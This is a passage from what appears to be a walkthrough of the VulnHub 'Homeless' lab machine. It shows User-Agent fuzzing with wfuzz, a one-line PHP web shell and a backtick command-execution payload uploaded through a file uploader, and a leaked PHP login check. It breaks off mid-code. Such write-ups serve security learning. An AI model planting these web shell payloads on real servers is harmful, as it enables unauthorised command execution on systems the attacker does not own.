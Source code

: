 ```sh
wfuzz -z file,list.txt --hw 651 -H "User-Agent: FUZZ" http://192.168.56.157/
```

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-13-VulnHub-Homeless/2021-11-13-VulnHub-Homeless%2006:47:21.png)

We see that the user-agent `cyberdog` shows a different page

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-13-VulnHub-Homeless/2021-11-13-VulnHub-Homeless%2006:47:52.png)

## myuploader_priv

And we found a place to upload files!

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-13-VulnHub-Homeless/2021-11-13-VulnHub-Homeless%2006:48:07.png)

File is too large

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-13-VulnHub-Homeless/2021-11-13-VulnHub-Homeless%2006:50:32.png)

The maxium I can send is this

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-13-VulnHub-Homeless/2021-11-13-VulnHub-Homeless%2006:51:30.png)

We could try

```php
<?=`$_GET[1]`?>
```

But which worked was

Reference [1](https://www.php.net/manual/en/language.operators.execution.php) and [2](https://www.php.net/manual/en/language.basic-syntax.phptags.php)

```php
<?=`ls`;
```

And we get it working

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-13-VulnHub-Homeless/2021-11-13-VulnHub-Homeless%2006:55:24.png)

We get the txt file

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-13-VulnHub-Homeless/2021-11-13-VulnHub-Homeless%2006:55:43.png)

# Login Portal

Now we have access to a new login portal

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-13-VulnHub-Homeless/2021-11-13-VulnHub-Homeless%2006:56:13.png)

We click in `Need a Hint` and download a php file

```php
<?php
session_start();
error_reporting(0);
    if (@$_POST['username'] and @$_POST['password'] and @$_POST['code'])
    {
        $username = (string)$_POST['username'];
        $password = (string)$_POST['password'];
        $code     = (string)$_POST['code'];
        if (($username == $password ) or ($username == $code)  or ($password == $code)) {
            echo 'Your input can not be the same.';
        } else if ((md5($username) === md5($password) ) and (md5($password) === md5($code)) ) {
            $_SESSION["secret"] = '133720';
```